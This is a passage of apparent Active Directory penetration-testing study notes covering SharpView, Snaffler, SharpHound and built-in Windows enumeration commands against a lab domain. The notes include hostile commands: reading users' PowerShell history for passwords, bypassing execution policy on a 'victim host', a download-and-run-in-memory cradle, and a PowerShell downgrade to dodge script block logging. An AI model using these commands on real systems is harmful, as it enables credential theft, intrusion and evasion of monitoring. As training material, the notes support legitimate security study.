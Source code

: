 ### SharpView
Excellent tool for AD recon
```powershell
.\SharpView.exe Get-DomainUser -Help
```
Enumerate information about a specific user
```powershell
.\SharpView.exe Get-DomainUser -Identity <username>
```
### [Snaffler](https://github.com/SnaffCon/Snaffler)
Can help aquire credentials and other sensitve information. 
Obtains a list of hosts within the domain and enumerates them for shares and readable directories. 
*Needs to be run from a domain joined hosts*
```bash
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```
`-s` - Prints results

### Blood Hound 
```powershell
.\SharpHound.exe -c All --zipfilename ILFREIGHT
```
Upload ZIP to local host

## Living off the Land
#### Enumeration commands
|**Command**|**Result**|
|---|---|
|`hostname`|Prints the PC's Name|
|`[System.Environment]::OSVersion.Version`|Prints out the OS version and revision level|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Prints the patches and hotfixes applied to the host|
|`ipconfig /all`|Prints out network adapter state and configurations|
|`set`|Displays a list of environment variables for the current session (ran from CMD-prompt)|
|`echo %USERDOMAIN%`|Displays the domain name to which the host belongs (ran from CMD-prompt)|
|`echo %logonserver%`|Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)|

#### Powershell Commands 

|**Cmd-Let**|**Description**|
|---|---|
|`Get-Module`|Lists available modules loaded for use.|
|`Get-ExecutionPolicy -List`|Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.|
|`Set-ExecutionPolicy Bypass -Scope Process`|This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.|
|`Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`|With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.|
|`Get-ChildItem Env: \| ft Key,Value`|Return environment values such as key paths, users, computer information, etc.|
|`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"`|This is a quick and easy way to download a file from the web using PowerShell and call it from memory.|
#### Downgrading Powershell
```powershell
powershell.exe -version 2
```
With [Script Block Logging](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2)enabled. 
This can stop logs appearing in `Applications and Services Logs` 

